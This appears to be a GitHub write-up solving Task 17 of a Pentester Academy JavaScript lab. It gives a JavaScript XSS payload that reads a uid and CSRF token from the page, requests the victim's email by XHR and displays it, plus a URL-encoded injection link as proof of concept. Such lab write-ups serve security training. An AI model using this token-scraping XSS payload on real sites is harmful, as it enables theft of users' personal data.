 ## Task 17 <small>[[Try Now]](http://pentesteracademylab.appspot.com/lab/webapp/jfp/17?csrf_token=87756351612121977981321312312123123126554427773)</small>

Objectives:

1. Find John's Email Address using an XSS vulnerability on this page
2. Display the Email address in the div with id "result"
3. No Hardcoded values can be used - everything has to be figured out dynamically

Well this time we have given the crsf token and uid. All we have to do is use it and send an XHR request to the following URL

![](https://i.ibb.co/GkcpnMm/image.png)

So let's use the knowledge from last [TASK_16](https://github.com/tbhaxor/pt-jsfp/blob/main/TASK_16.md) and complete this one

```js
const uid = document.querySelector("p#uid").textContent.trim().slice(4);
const tok = document.querySelector("p#csrf").textContent.trim().slice(6);
const xhttp = new XMLHttpRequest();

xhttp.onreadystatechange = function () {
  if (this.readyState == 4 && this.status == 200) {
    document.querySelector("#result").innerText = xhttp.responseText;
  }
};
xhttp.open("GET", "http://pentesteracademylab.appspot.com/lab/webapp/jfp/17/email?csrf_token=" + tok + "&uid=" + uid, true);
xhttp.send();
```

The [.trim()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/trim) is used to remove the leading and training whitespaces and [.slice(start)](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/slice) is used to ignore first _n_ characters of the string

For POC, [Click Here](http://pentesteracademylab.appspot.com/lab/webapp/jfp/17?url=%3Cscript%3Econst%20uid%20%3D%20document.querySelector%28%22p%23uid%22%29.textContent.trim%28%29.slice%284%29%3B%0Aconst%20tok%20%3D%20document.querySelector%28%22p%23csrf%22%29.textContent.trim%28%29.slice%286%29%3B%0Aconst%20xhttp%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%0Axhttp.onreadystatechange%20%3D%20function%20%28%29%20%7B%0A%20%20if%20%28this.readyState%20%3D%3D%204%20%26%26%20this.status%20%3D%3D%20200%29%20%7B%0A%20%20%20%20document.querySelector%28%22%23result%22%29.innerText%20%3D%20xhttp.responseText%3B%0A%20%20%7D%0A%7D%3B%0Axhttp.open%28%22GET%22%2C%20%22http%3A%2F%2Fpentesteracademylab.appspot.com%2Flab%2Fwebapp%2Fjfp%2F17%2Femail%3Fcsrf_token%3D%22%20%2B%20tok%20%2B%20%22%26uid%3D%22%20%2B%20uid%2C%20true%29%3B%0Axhttp.send%28%29%3B%3C%2Fscript%3E)
